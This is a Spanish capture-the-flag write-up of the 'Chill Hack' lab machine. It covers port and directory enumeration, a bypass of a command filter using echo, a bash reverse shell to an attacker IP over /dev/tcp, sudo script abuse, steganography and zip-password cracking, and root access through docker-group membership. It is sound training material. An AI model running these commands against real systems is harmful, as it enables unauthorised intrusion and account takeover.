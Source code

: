 # 💻 Chill Hack

## Enumeración

Comenzamos haciendo un escaneo de puertos con **Nmap:**

```bash
map -p- --open --min-rate 5000 -sSVC -Pn -v -oN escaneo.txt 10.10.14.130
```

<figure><img src="../../.gitbook/assets/imagen (41).png" alt="Escaneo Nmap"><figcaption></figcaption></figure>

Como se ve en la imagen la máquina tiene 3 puertos abiertos: **21(FTP)**, **22(SSH)**, **80(HTTP).**

Por el escaneo hecho con nmap vemos el servicio **FTP** tiene habilitado el login "anonymous" y que hay por lo menos un archivo **.txt,** por lo que entramos y descargamos el archivo **note.txt** a nuestro pc. Vemos que hay dos posibles usuarios: **anurodh** y **apaar.**\


<figure><img src="../../.gitbook/assets/imagen (43).png" alt=""><figcaption></figcaption></figure>

Después nos pasamos al servicio **HTTP,** entramos a la página web e inspeccionamos pero no encontramos nada que nos ayude.

<figure><img src="../../.gitbook/assets/imagen (44).png" alt="Página web"><figcaption></figcaption></figure>

### Fuzzing web

Procedemos a hacer enumeración de directorios con **Gobuster:**

```bash
gobuster dir -u http://10.10.14.130 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
```

Esto nos da una ruta de interes `/secret`

<figure><img src="../../.gitbook/assets/imagen (65).png" alt="Enumeracion gobuster"><figcaption></figcaption></figure>

Al ir a la ruta, encontramos con un campo en el que podemos introducir comandos, pero aquí es donde aplican las restricciones que se mencionaban en la nota, ya que al querer usar comandos como `ls` o `cat /etc/passwd` nos muestra el mensaje en letras rojas

<div align="left">

<figure><img src="../../.gitbook/assets/imagen (45).png" alt=""><figcaption></figcaption></figure>

 

<figure><img src="../../.gitbook/assets/imagen (66).png" alt=""><figcaption></figcaption></figure>

</div>

Intentamos pasar este filtro usando el comando `echo` y confirmamos usuarios mencionados en la nota y algún otro.

```bash
echo $(cat /etc/passwd)
```

<figure><img src="../../.gitbook/assets/imagen (48).png" alt=""><figcaption></figcaption></figure>

## Explotación

Una vez  visto como saltarnos las restricciones, podemos enviarnos una **reverse shell**

```bash
echo $(bash -c  "bash -i >& /dev/tcp/10.9.0.2/443 0>&1")
```

<figure><img src="../../.gitbook/assets/imagen (50).png" alt="reverse shell"><figcaption></figcaption></figure>

Hacemos enumeración de las carpetas de los usuarios entramos a la unica carpeta a la que tenemos acceso `/apaar` entre los archivos encontramos un script en bash llamado `.helpline.sh`, en el contenido del script podemos ver que podríamos ejecutar comandos.

<figure><img src="../../.gitbook/assets/imagen (52).png" alt=""><figcaption></figcaption></figure>

Listamos que podemos ejecutar como sudo y por suerte podemos ejecutar el script como el usuario **apaar.**

```bash
sudo -l
```

<figure><img src="../../.gitbook/assets/imagen (53).png" alt=""><figcaption></figcaption></figure>

## Movimiento Lateral

Ejecutamos el script como el usuario **apaar** y cuando nos pregunte por el mensaje ingresamos `/bin/bash`, con esto logramos migrar de usuario.

```bash
sudo -u apaar /home/apaar/.helpline.sh
```

<figure><img src="../../.gitbook/assets/imagen (54).png" alt=""><figcaption></figcaption></figure>

Una vez dentro del usuario podemos ver la **primer flag** dentro del archivo `local.txt`

<figure><img src="../../.gitbook/assets/imagen (55).png" alt=""><figcaption></figcaption></figure>

Después de estar explorando mucho alguna forma de escalar privilegios o movernos a otro usuario, admito que tuve que buscar alguna pista, la cual encontré en este writeup:

{% embed url="https://hack.xero-sec.com/writeups/tryhackme/chill-hack" %}

Con esta pista, me di cuenta que debía de buscar en `/var/www/files` donde encontramos un archivo **.php,** al parecer debe de haber algo interesante con la imagen `hacker-with-laptop_23-2147985341.jpg`

<figure><img src="../../.gitbook/assets/imagen (56).png" alt=""><figcaption></figcaption></figure>

nos movemos a la ruta de la imagen con un server en Python y en la descargamos en nuestra máquina local con **wget**.&#x20;

<figure><img src="../../.gitbook/assets/imagen (68).png" alt="Python server"><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (67).png" alt=""><figcaption></figcaption></figure>

Una vez descargada la imagen, intentamos ver sus metadatos con **exiftool**, pero hallamos algo de interés. Por lo que usamos **steghide** extraer cual quier información oculta que pueda tener la imagen.

```bash
steghide extract -sf hacker-with-laptop_23-2147985341.jpg
```

<figure><img src="../../.gitbook/assets/imagen (59).png" alt=""><figcaption></figcaption></figure>

Nos extrajo un archivo **.zip** el cual esta protegido con contraseña , por lo que usamos **JohnTheRipper**, primero extraemos la el hash de la contraseña con **zip2john** y después intentamos romper el hash con **John.**

```bash
zip2john backup.zip > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/imagen (58).png" alt=""><figcaption></figcaption></figure>

Con la contraseña obtenida extraemos el contenido del zip, el cual es un archvio php, en su contenido podemos ver que esta contraseña en base64 del usuario **anurodh.**

<figure><img src="../../.gitbook/assets/imagen (60).png" alt=""><figcaption></figcaption></figure>

Decodificamos la contraseña y en la máquina victima nos cambiamos al usuario **anurodh**

<div>

<figure><img src="../../.gitbook/assets/imagen (61).png" alt="Bas64 decoded password"><figcaption><p>base64 decode</p></figcaption></figure>

 

<figure><img src="../../.gitbook/assets/imagen (62).png" alt="su anurodh"><figcaption><p>su anurodh</p></figcaption></figure>

</div>

## Escalada de privilegios

Con el comando `id`, vemos el el usuario anurodh pertenece al grupo **docker**

<figure><img src="../../.gitbook/assets/imagen (69).png" alt="id anurodh"><figcaption><p>id anurodh</p></figcaption></figure>

Haciendo una búsqueda rápida en [GTFOBins](https://gtfobins.github.io/gtfobins/docker/), encontramos el siguiente comando para escalar privilegios.

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

<figure><img src="../../.gitbook/assets/imagen (64).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (63).png" alt="root flag"><figcaption><p>root flag</p></figcaption></figure>
